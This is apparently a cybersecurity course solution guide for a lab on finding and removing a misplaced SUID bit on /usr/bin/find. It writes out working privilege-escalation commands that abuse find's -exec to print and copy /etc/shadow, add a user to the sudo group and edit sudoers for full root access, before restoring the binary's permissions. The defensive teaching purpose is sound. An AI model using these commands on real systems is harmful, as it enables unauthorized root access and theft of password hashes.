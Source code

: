 ## Solution Guide: Shutting Out `SUID`

For this activity, we found all the files that have `SUID` set, and compared them against the list provided by the senior administrator. We then checked for vulnerabilities, and removed the `SUID` from programs that shouldn't have had it set. 

To complete this activity we needed to:

- Run the `find` command to find all `SUID` bit-enabled programs.

- Compare the list against the list provided and verify one of the programs not on the list.

- Switch to another user and attempt to exploit the program found.

- Run the correct command to remove the `SUID`  bit from the program, and verify this command worked.


Start by searching the `/usr/bin` directory for all files that have the `SUID` bit set.

- Run `find /usr/bin -perm -4000`

  - `/usr/bin/find` is showing in the list.

- Run `ls -l /usr/bin/find` to verify that the `SUID` bit is set, using a long listing.

Switch to a user that does not have `sudo` privileges, like `sally`.

- Run `su sally` (password: `123456`)

- Run `sudo -l` to verify that `sally` has no `sudo` access.

- Run `find / -iname 'etc' -exec whoami \;`

**Bonus Task 1**: Use `find` to read or make a copy of `/etc/shadow`.

- Run `find /etc -iname 'shadow' -exec cat {} \;` to print the contents of `/etc/shadow`.

- Run `find /etc -iname 'shadow' -exec cat {} \; > shadow.txt` to save it to a file.

- Run `cat shadow.txt` to verify it is saved. 

**Bonus Task 2**: Use `find` to gain `sudo` or `root` access.

 This action can be completed by adding yourself to the `sudo` group:

- Run `find /etc -iname 'shadow' -exec usermod -aG sudo sally {} \;`

  - `find /etc -iname 'shadow'` is the example we used earlier to find a file that we know exists.
    - This is used just to activate the `-exec` portion of the command.
  - `-exec` stands for _execute_ and allows you to run a second command.
  - `usermod -aG sudo sally` is the `usermod` command that we used in the last class to add a user to the `sudo` group.
  - `{} \;` closes the `find` command. 

For this change to work, you will have to log out and log back in to this user.

- Run `exit` to log out.

- Run `su sally` to log back in.

- Run `groups` to verify.

- Run `sudo su root` to get a root shell.

To remove `sally` from the `sudo` group:

- Run `usermod -G sally sally` 

- Then, run `exit` to log out of the root user.

As another way to escalate privileges, you could use this `find` exploit to edit the `sudoers` file and add yourself with full `sudo` access.

- Run `find /etc -iname 'shadow' -exec visudo \;`

- Add the line `sally (ALL:ALL) ALL` under the `# User privilege specification` section.

  ```bash
  # User privilege specification
  root    ALL=(ALL:ALL) ALL
  sally     ALL=(ALL:ALL) ALL
  ```

Save and exit with `^X`, `y` and `enter`.

- Run `sudo -l` and enter the password for `sally`.

- Run `sudo su root` to get a root shell.

After verifying these vulnerabilities, we remove the `SUID` bit from the `find` command.

To get the path for the find command: 

- Run `which find`

Remove the `SUID` and `GUID` bits: 

- Run `sudo chmod 0755 /usr/bin/find` 

Verify they have been removed: 

- Run `ls -l /usr/bin/find`

Remove the line for `sally`, exit the `sally` user, and exit back to the `sysadmin` user. 

- Run `visudo` and remove the line for `sally`.

- Run `exit` to exit to the `sally` user.

- Run `exit` again to exit back to the `sysadmin` user.

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
